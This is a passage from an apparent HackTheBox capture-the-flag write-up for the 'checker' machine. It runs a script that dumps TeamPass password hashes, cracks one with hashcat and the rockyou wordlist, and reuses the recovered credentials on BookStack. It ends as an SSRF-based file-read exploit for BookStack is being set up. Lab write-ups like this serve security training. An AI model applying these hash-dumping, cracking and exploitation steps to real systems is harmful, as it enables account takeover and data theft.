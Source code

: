 ```bash
bash teampass.sh http://checker.htb:8080

There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

From the obtained hashes, we were able to crack the `bob` user hash using `hashcat`:

```bash
hashcat -m 3200 ./hashes /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt --username
```

```
hashcat -m 3200 hashes --username --show

bob:$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader
```

By accessing the `Teampass` instance with the `bob` user, we can see that he has two stored passwords, one for ssh access for the user `reader` and another for "boosktack" login: 

![NON](file-20250530155426813.png)
![NON](file-20250530155429485.png)

Trying to access the `ssh` with the `reader` user:

![NON](file-20250530173905194.png)

We are prompted for a MFA code, which we don't have.

## (80) Web Server

Accessing the web server on port 80, we see that it is indeed running an instance of a `bookstack`.

![NON](file-20250531013858189.png)

Trying to access with the credentials we obtained from the `Teampass` instance, we can log in as `bob`.

![NON](file-20250530155627541.png)

Searching for exploits for `bookstack`, we found a post on [`Fluid Attacks`](https://fluidattacks.com/advisories/imagination) about a `Server Side Request Forgery (SSRF)` vulnerability which leads to LFR (Local File Read). [Post 1](https://fluidattacks.com/advisories/imagination) [Post 2](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack)

We can capture the request to `save-draft` in the same way as shown in the post video from post 1:

![NON](file-20250531032632681.png)

Trying the exploit with `php-filter-chains-oracle-exploit`, we got an error on the execution

```bash
uv add --script filters_chain_oracle_exploit.py -r requirements.txt
Updated `filters_chain_oracle_exploit.py`
```
> Note: The `uv` command is used to run the script with the required dependencies, automatically creating a virtual environment if it doesn't exist.
{: .prompt-info}
